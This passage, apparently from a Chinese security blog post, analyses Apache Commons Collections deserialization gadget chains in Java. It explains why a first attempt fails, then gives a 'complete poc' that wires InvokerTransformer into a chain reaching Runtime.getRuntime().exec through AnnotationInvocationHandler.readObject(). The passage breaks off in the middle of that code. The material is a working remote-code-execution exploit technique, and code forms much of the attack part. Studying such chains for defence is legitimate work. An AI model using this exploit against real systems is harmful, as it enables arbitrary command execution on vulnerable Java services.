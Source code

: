 	
其实通过分析可以找到很多调用链的，比如
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->TreeMap.put()->CoreDocumentImpl.readObject()

还有一种比较简单的调用，直接是
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()

###  情况2(TransformedMap.checkSetValue)
下面针对InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()
这条调用链来构造poc:
	
	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	
到这里并没有成功弹出计算器，当执行到AnnotationInvocationHandler.readObject()时，下面这段代码不会执行。
	
	for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
	String name = memberValue.getKey();
	Class<?> memberType = memberTypes.get(name);
	if (memberType != null) {
		// i.e. member still exists
		Object value = memberValue.getValue();
		if (!(memberType.isInstance(value) ||
			value instanceof ExceptionProxy)) {
			memberValue.setValue(
				new AnnotationTypeMismatchExceptionProxy(
				value.getClass() + "[" + value + "]").setMember(
				annotationType.members().get(name)));

要其执行要满足两个条件,memberValues不能为空，并且memberType不能为空
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
memberTypes是Retention，查找下注释Retention中的成员，发现有一个value。
![](http://pic.findbugs.top/18-2-1/3738114.jpg)
那么memberValues只需要put一个键值对，其键为value即可，memberValues.put('value', 'xxx'),完整poc如下:
	
	public InvocationHandler getObject(final String command) throws Exception {
	final String[] execArgs = new String[]{command};
	// inert chain for setup
	// real chain for after setup
	final Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
		new InvokerTransformer("getMethod", new Class[]{
		String.class, Class[].class
	}
	, new Object[]{
		"getRuntime", new Class[0]
	}
	),
		new InvokerTransformer("invoke", new Class[]{
		Object.class, Object[].class
	}
	, new Object[]{
		null, new Object[0]
	}
	),
		new InvokerTransformer("exec",
		new Class[]{
		String.class
	}